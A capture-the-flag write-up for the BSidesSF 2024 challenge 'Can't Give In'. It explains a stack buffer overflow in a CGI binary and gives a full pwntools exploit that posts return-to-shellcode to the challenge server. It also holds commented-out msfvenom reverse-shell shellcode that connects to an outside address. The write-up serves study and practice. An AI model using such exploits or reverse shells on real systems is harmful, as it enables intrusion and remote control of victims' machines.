

# Can't Give In

## Description

Can you get a shell?

_Note: the binary should have an executable stack and minimal hardening. the goal is RCE._

Flag is located in: `/home/ctf/flag.txt`

Author: ron

http://cant-give-in-4130d4ca.challenges.bsidessf.net:8080/

## Approach

> This was a fun one. Yet i still can't pop a shell 😭. 

So we were given a binary called `auth.cgi`. Upon further analysis, i realized that it is a compiled binary that is facing the internet, and used to evaluate user's input.

From Wikipedia:
```
In computing, Common Gateway Interface (CGI) is an interface specification that enables web servers to execute an external program to process HTTP or HTTPS user requests.

Such programs are often written in a scripting language and are commonly referred to as CGI scripts, but they may include compiled programs.

A typical use case occurs when a web user submits a web form on a web page that uses CGI. The form's data is sent to the web server within an HTTP request with a URL denoting a CGI script. The web server then launches the CGI script in a new computer process, passing the form data to it. The CGI script passes its output, usually in the form of HTML, to the Web server, and the server relays it back to the browser as its response to the browser's request.

Developed in the early 1990s, CGI was the earliest common method available that allowed a web page to be interactive. Due to a necessity to run CGI scripts in a separate process every time the request comes in from a client, various alternatives were developed.
```

Upon connecting to the website, we were given a webpage like below


When i tried to input some random text, it makes a POST request to the `/cgi-bin/auth.cgi` endpoint with the data as below.

```
password=asdasd
```


When we look into the disassembled binary:


We can see there is a clear buffer overflow by setting the `CONTENT_LENGTH` to be bigger than the buffer size. Since `CONTENT_LENGTH` is modifiable by the user/data.

Also when we take a look at the protection binary.
```shell
[*] "/mnt/d/ctf-writeups/BsideSSF 2024/Can't Give In/auth.cgi"
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
We can see that NX is disabled. Which mean this is a ret2shellcode challenge. For debugging locally, since this binary is getting the `CONTENT_LENGTH` from the environment variable, i used the following command to set `CONTENT_LENGTH` to a bigger value.

```shell
export CONTENT_LENGTH=1000
```
By trying to overflow the buffer. We get the following response.

```shell
> cat payload | ./auth.cgi
Content-Type: text/plain

[1]    35769 done                              echo  |
       35770 segmentation fault (core dumped)  ./auth.cgi
```
Nice! We got a segfault. Now we can try to exploit this binary. First i look for any gadgets that resembles `jmp rsp` or `call rsp` in the binary. Though i didn't find `jmp rsp`, i do find a `call rsp` gadget that does the same thing.

```
0x00000000004094bb: call rbx;
0x000000000043c4a8: call rcx;
0x0000000000439a1b: call rdi;
0x0000000000417daf: call rdx;
0x000000000043e627: call rsi;
0x00000000004127ca: call rsp; <-- This is the gadget
```

The first thing that crossed my mind when pwning a binary is to pop a shell, or in this case, a `Reverse Shell`. But for some unknown reason (skill issue), i can't get the shell to pop up. So i decided to just directly read the flag instead. Since we know where our flag is located, we can just read the flag.

So to get the flag, we just need to send a POST request to the `/cgi-bin/auth.cgi` endpoint with our payload as the data. Since `CONTENT_LENGTH` is dynamically set, we can just send the payload and not bothering with the header request.



## Exploit
```python
#!/usr/bin/python3
from pwn import *
import requests

# =========================================================
#                          SETUP                         
# =========================================================
exe = './auth.cgi' # <-- change this
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *main+265
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    # global io
    # io = initialize()
    offset = 168
    # Generated from msfvenom
    # buf =  b""
    # buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
    # buf += b"\x48\x97\x48\xb9\x02\x00\x05\x39\x12\x88\x76\x2b"
    # buf += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
    # buf += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
    # buf += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
    # buf += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
    # buf += b"\x0f\x05"
    shellcode = asm(shellcraft.cat("/home/ctf/flag.txt"))
    call_rsp = 0x4127ca
    
    payload = flat(
        b'\x90' * offset,
        call_rsp,
        b'\x90' * 8,
        # buf
        shellcode
    )
    
    response = requests.post("http://cant-give-in-4130d4ca.challenges.bsidessf.net:8080/cgi-bin/auth.cgi", data=payload)
    print(response.text)

    # io.send(payload)
    
    # io.interactive()
    
if __name__ == '__main__':
    exploit()
```

## Flag
```
CTF{certified-genuine-instructions}
```